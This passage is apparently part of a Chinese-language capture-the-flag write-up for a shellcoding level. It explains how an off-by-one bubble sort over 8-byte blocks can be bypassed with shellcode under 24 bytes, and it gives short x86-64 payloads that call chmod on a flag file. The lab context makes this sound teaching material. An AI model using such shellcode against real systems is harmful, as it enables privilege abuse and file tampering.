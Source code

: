 ```python
    .rept 10
    nop
    .endr
continue:
    push 0x5a
    pop rax
    syscall
""")
```
# level 10 对 shellcode 字节进行排序
> 题目源码如下：

```c
    uint64_t *input = shellcode_mem;
    int sort_max = shellcode_size / sizeof(uint64_t) - 1;   
// 这里有个漏洞，sizeof(uint64_t)是8字节。
// 也就是说shellcode小于8字节时候，sort_max=-1 ; 8~16字节时候，sort_max=0,第一层for循环条件不满足，将不会进行排序
// 16~24字节时候，由于第二层for循环不满足，因此也不会进行排序
// 24~32字节时候，会进行一次排序，
    for (int i = 0; i < sort_max; i++)
        for (int j = 0; j < sort_max-i-1; j++)
            if (input[j] > input[j+1])
            {
                uint64_t x = input[j];
                uint64_t y = input[j+1];
                input[j] = y;
                input[j+1] = x;
            }

```
> 解析：程序会将输入的的 shellcode 按照 8 字节分块，然后冒泡排序比较的目标是每一块首个字节的大小【遵循大字节块放前面原则】
> 由于本题源码中 for 循环内 j 的上界多减了一次 1，因此使得绕过排序的最长 shellcode 字节数达到了 23 字节。

## 编写短 shellcode 绕过排序逻辑
```c
sh = asm('''
push 0x66
mov rdi,rsp
push 4
pop rsi
mov al,0x5a      
syscall
''')
```
```c
sh = asm('''
push 0x66
mov rdi,rsp
push 4
pop rsi
mov rax,0x5a      
syscall
''')
sh = asm('''
    mov rbx,0x67616c662f
    push rbx
    mov rdi,rsp
    push 0x0
    pop rsi
    mov rax,0x5a
    syscall
''')
```